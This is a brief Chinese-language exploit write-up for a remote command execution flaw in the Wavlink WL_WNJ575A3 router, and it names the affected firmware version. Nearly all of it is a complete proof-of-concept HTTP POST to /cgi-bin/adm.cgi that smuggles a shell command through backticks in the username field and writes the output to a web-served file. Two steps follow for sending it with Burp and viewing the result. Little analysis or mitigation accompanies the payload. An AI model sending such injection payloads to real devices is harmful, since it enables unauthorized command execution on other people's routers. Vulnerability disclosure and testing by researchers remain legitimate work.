 ## 睿因 Wavlink WL_WNJ575A3 远程命令执行
影响版本
Wavlink WL_WNJ575A3 v.R75A3_V1410_220513
漏洞代码
POC
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/100.0.4896.60 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close


page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass= 12345678


```
1.Burp 发包执行命令
2.访问“data.html”查看命令执行结
